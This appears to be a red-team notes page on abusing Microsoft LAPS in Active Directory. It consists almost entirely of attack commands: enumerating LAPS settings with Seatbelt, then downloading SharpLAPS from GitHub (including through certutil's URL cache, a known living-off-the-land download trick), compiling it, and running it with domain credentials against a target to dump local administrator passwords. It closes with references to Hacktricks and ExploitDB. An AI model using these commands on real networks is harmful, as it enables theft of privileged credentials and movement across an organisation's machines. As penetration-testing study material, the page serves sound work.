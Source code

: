 # Binaries

## 01 - Enumerate

### 1.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x03 - Bring Your Own Land/Windows/Privilege Escalation/Seatbelt|Seatbelt]]

```
C:\> .\Seatbelt.exe LAPS [-computername=<IP> | <computername>.<domain>.<tld>] [-username=<DOMAIN>\<username> -password=<password>]
```

## 02 - Harvest Credentials

### 2.1 - SharpLAPS

#### Setup

##### Download Pre-compiled Binary

Download the binary in command prompt.

```
C:\> certutil.exe -urlcache -split -f https://github.com/swisskyrepo/SharpLAPS/releases/download/latest-SharpLAPS/SharpLAPS.exe SharpLAPS.exe

C:\> curl.exe -o SharpLAPS.exe -f https://github.com/swisskyrepo/SharpLAPS/releases/download/latest-SharpLAPS/SharpLAPS.exe
```

Download the binary in PowerShell cmdlet.

```
PS C:\> Invoke-WebRequest -Uri https://github.com/swisskyrepo/SharpLAPS/releases/download/latest-SharpLAPS/SharpLAPS.exe -OutFile SharpLAPS.exe
```

##### Compile

Install a targeting pack from this [link](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481).  Then compile `ADSearch`.

```
C:\> git clone https://github.com/swisskyrepo/SharpLAPS.git

C:\> cd SharpLAPS

C:\SharpLAPS> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

#### Usage

```
C:\> .\SharpLAPS.exe /user:<DOMAIN>\<username> /pass:<password> /host:<IP>
```

---
## References

### Github

- [SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)

### Hacktricks

- [Hacktricks: LAPS](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/laps.html)

### Hacking Articles

- [Hacking Articles: Credential Dumping - LAPS](https://www.hackingarticles.in/credential-dumpinglaps/)

### ExploitDB

- [Exploit DB: Abusing LAPS](https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf)